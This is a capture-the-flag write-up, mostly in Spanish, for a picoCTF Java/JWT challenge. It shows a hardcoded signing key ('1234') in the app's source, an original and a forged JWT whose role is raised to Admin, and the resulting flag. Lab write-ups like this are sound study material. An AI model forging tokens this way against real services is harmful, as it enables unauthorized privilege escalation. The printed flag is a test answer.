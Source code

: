 # 7 - Java Code Analysis!?!

## Descripcion:
* BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Additional details will be available after launching your challenge instance.
* Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
* The 'role' and 'userId' fields in the JWT can be of interest to you!
* The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
* Upgrade your 'role' with the new (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.

## Solucion:
+ http://saturn.picoctf.net:61984/#/
+ http://saturn.picoctf.net:61984/#/dash
+ https://www.jwt.io/
old jws
+ eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc2MDU2MjIwMiwiaWF0IjoxNzU5OTU3NDAyLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.fZFqVUo02W37umOw4u9vGSyHd4rs_FNGojoPMNfjzAQ
new jws con firma
+ eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NjA1NjIyMDIsImlhdCI6MTc1OTk1NzQwMiwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.DQckYnEqKtN836Q_VMdGd0by7a6qg-ARV4y5fWAhGG0
payload de token
+ {"role":"Admin","iss":"bookshelf","exp":1760562202,"iat":1759957402,"userId":2,"email":"admin"}

bandera
```
picoCTF{w34k_jwt_n0t_g00d_d72df65e}
```
## Notas:
nos encontramos con un inicio de secion asique ingresamos la contraseña y usuario que nos dieron
+ username: user
+ password: user
despues nos dirigimos a inspeccionar la pagina nos movemos a la columna de almacen(storage)
para ir a la pestaña lateral almacen local(local storage) y nos encontramos un jwt de token y al revisar el zip que nos diron en la carpeta 
bookshelf-pico.zip\src\main\java\io\github\nandandesai\pico\security

hay un archivo llamado SecretGenerator.java en este nos encontramos una firma de token
```python
@Service

class SecretGenerator {

    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);

    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

  

    @Autowired

    private UserDataPaths userDataPaths;

  

    private String generateRandomString(int len) {

        // not so random

        return "1234";

    }
```
entonces nos dirigimos a la pagina https://www.jwt.io/ para modificar la firma a 1234

despues modificamos nuestro rol para ser admin en el payload
## Referencias: